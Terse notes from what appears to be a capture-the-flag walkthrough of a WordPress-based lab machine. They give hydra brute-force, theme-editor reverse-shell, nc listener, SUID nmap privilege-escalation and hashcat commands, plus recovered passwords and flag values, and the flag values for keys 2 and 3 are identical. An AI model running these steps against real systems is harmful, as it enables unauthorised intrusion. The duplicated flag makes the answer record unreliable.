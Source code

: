 # IP=10.10.234.229

/robots.txt: fsocity.dic, key-1-of-3.txt

Wordpress: wpscan --url http://$IP
- Wordpress 4.3.1
- Twentyfifteen 
- /readme.html: I like where you head is at. However I'm not going to help you. 
- /phpmyadmin
- /fsocity.dic (wordlist)

//
//
# KEY 1
- /key-1-of-3.txt:
	073403c8a58a1f80d943455fb30724b9
//
//

sort fsocity.dic | uniq > new

wp-admin pwn: hydra -l elliot -P fsocity.dic -s 80 -t 30 $IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.234.229%2Fwp-admin%2F&testcookie=1:incorrect'

//
# ELLIOT PWD:
elliot:ER28-0652
//

navigate to /wp-login.php
- Logged in 
- Appearance -> Editor -> 404.php
- Upload reverse shell
- nc -lvnp 4444
- Navigated to http://$IP/wp-content/themes/twentyfifteen/404.php
- In shell: python -c 'import pty;pty.spawn("/bin/bash")'
- find / -perm -u=s -type f 2>/dev/null
- ./usr/local/bin/nmap --interactive
- !sh
- cat /root/key-3-of-3.txt
- cat /home/robot/key-2-of-3.txt
- cat /home/robot/password.raw-md5

//
# ROBOT MD5 HASH:
robot:c3fcd3d76192e4007dfb496cca67e13b

to crack... hashcat -m 0 c3fcd3d76192e4007dfb496cca67e13b /usr/share/wordlists/rockyou.txt

# ROBOT PWD:
robot:abcdefghijklmnopqrstuvwxyz
//

//
//
# KEY 2:
- /key-2-of-3.txt:
	822c73956184f694993bede3eb39f959
//
//

//
//
# KEY 3:
- /key-3-of-3.txt:
	822c73956184f694993bede3eb39f959
//
//
